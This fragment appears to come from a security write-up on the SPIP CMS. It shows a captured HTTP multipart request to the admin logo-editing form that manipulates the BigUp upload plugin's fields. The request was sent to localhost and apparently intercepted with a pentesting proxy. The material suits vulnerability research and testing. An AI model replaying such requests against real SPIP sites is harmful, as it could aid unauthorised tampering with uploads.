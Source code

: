 ```bash
POST /ecrire/?exec=auteur&id_auteur=1 HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------35974249246826023222844215477
Content-Length: 1584
Origin: http://localhost:8000
Connection: keep-alive
Referer: http://localhost:8000/ecrire/?exec=auteur&id_auteur=1
Cookie: spip_session=1_d11b8a893cc1f545e2dee6e3e5ceb3ec; spip_admin=%40root%40root.root; spip_accepte_ajax=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-PwnFox-Color: blue

-----------------------------35974249246826023222844215477
Content-Disposition: form-data; name="var_ajax"

form
-----------------------------35974249246826023222844215477
Content-Disposition: form-data; name="exec"

auteur
-----------------------------35974249246826023222844215477
Content-Disposition: form-data; name="id_auteur"

1
-----------------------------35974249246826023222844215477
Content-Disposition: form-data; name="formulaire_action"

editer_logo
-----------------------------35974249246826023222844215477
Content-Disposition: form-data; name="formulaire_action_args"

o7aLD55YnoVFatZHAGqAQwWZcL0Z6FaCfDb4yh9BlxHzEDHJjuuhj1zH/aQrCvgA3lRry1gAXIHgxJclaNiXP7J3xnoB+JE/twMTVpcmUQOczifhWzHFchZPDMxK0Sia4few939TklVQhnGYmdnbni4cOszvyb3ueOHYnGsiBda5GtVbmHwU3g4eAS/CgDM4SbQj5xvy0CLNKxbCbNL75db6W+NetjxgKlHBdLlpP8eiRnzNSd11MGmPqGezNBV+1CH5T/OUZkOfy2uKfo/WdwFGduql2JNpSUWmXLQY9RjR1ZwQredgR9E=
-----------------------------35974249246826023222844215477
Content-Disposition: form-data; name="formulaire_action_sign"

61e4242ff0083987cd3f876d5daa0a9ece8d7c772f4bb1f248ce3f4cb4bc9b47
-----------------------------35974249246826023222844215477
Content-Disposition: form-data; name="bigup_retrouver_fichiers"

1
-----------------------------35974249246826023222844215477
Content-Disposition: form-data; name="formulaire_action_verifier_json"

true
-----------------------------35974249246826023222844215477
Content-Disposition: form-data; name="bigup_reinjecter_uniquement"

@28ef70ab@
-----------------------------35974249246826023222844215477--
```
![log1](./img/log1.png)
